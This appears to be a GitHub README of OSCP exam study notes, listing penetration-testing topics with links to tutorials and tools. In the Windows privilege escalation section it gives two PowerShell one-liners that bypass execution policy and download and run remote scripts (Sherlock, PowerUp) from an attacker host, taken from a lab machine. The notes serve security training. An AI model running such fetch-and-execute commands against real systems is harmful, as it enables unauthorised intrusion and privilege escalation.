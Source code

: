 # OSCP-Prepration
---------------------------
PWK Syllabus
https://www.offensive-security.com/documentation/penetration-testing-with-kali.pdf

### OSCP like VulnHub Game 
https://www.abatchy.com/2017/02/oscp-like-vulnhub-vms.html


### Linux and Bash

1. Linux Journey - https://linuxjourney.com/
2. Bash for Beginners  - http://www.tldp.org/LDP/Bash-Beginners-Guide/html/
3. Explainshell - http://www.explainshell.com/

### Basic tools
	
1. Netcat: Most important tool in the entire course. Understand what it does, what options you have, difference between a reverse shell and a bind shell. Experiment a lot with it.
2. Ncat: Netcat’s mature brother, supports SSL. Part of Nmap.
3. Wireshark: Network analysis tool, play with it while browsing the internet, connecting to FTP, read/write PCAP files.
4. TCPdump: Not all machines have that cute GUI, you could be stuck with a terminal.

### Passive Recon

1. Google dorks
2. Whois
3. Netcraft
4. Recon-ng

### Active Recon

### Buffer Overflow
https://github.com/fkclai/bufferoverflow

### Using public exploits

### File Transfer

### Windows Privilege Escalation

- Information Generating
https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html

- Window Privilege Escalation via Automated Script
https://www.hackingarticles.in/window-privilege-escalation-via-automated-script/

- Windows Exploit-Suggester
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
e.g. HTB Json

- Missing software patches - Sherlock
https://github.com/rasta-mouse/Sherlock
e.g. HTB Json
```
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.18:8888/Sherlock.ps1'); Find-AllVulns -Command 'start powershell.exe'" 
```

- PowerSploit
https://github.com/PowerShellMafia/PowerSploit

```
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.18:8888/PowerSploit/Privesc/PowerUp.ps1'); Invoke-AllChecks -Command 'start powershell.exe'" 
```
- Other Tools 
https://www.secureauth.com/labs/open-source-tools/impacket

### Linux Privilege Escalation
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

### Client Side Attacks
https://www.offensive-security.com/metasploit-unleashed/client-side-attacks/

### Web Application Attacks
1. OWASP top10 2017
https://www.owasp.org/index.php/Top_10-2017_Top_10

2. Training
https://www.hacksplaining.com/

### Password Attacks
1. Hydra
2. JTR
3. Medusa

### Port redirection/tunneling
https://chamibuddhika.wordpress.com/2012/03/21/ssh-tunnelling-explained/

### Metasploit Framework
https://www.offensive-security.com/metasploit-unleashed/

### Antivirus Bypassing

